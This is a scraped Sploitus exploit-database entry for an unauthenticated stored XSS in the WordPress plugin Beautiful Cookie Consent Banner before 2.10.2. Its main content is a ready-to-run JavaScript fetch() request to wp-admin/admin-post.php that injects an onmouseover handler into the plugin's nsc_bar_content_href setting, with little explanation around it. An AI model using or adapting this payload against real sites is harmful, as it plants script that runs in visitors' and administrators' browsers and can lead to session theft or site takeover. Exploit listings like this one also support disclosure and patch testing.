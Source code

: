 ```yaml
---
title: Beautiful Cookie Consent Banner < 2.10.2 - Unauthenticated Stored XSS exploit
url: https://sploitus.com/exploit?id=WPEX-ID:438C6818-CACE-410B-ACE3-325E5EA06365&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-02-14
fetch_date: 2025-10-04T06:29:05.474599
---
```


# Beautiful Cookie Consent Banner < 2.10.2 - Unauthenticated Stored XSS exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Beautiful Cookie Consent Banner < 2.10.2 - Unauthenticated Stored XSS

2023-02-13 | CVSS 1.3

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=WPEX-ID:438C6818-CACE-410B-ACE3-325E5EA06365
On version < 2.10.1:

```
fetch("wp-admin/admin-post.php", {
  "headers": {
    "content-type": "application/x-www-form-urlencoded",
  },
  "method": "POST",
  "body": "nsc_bar_content_href=http%3A%2F%2Fyourdomain%2Fdataprivacy%22+onmouseover%3D%22alert%28%2FXSS%2F%29",
  "credentials": "include"
}).then(response => response.text())
  .then(data => console.log(data));
```
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)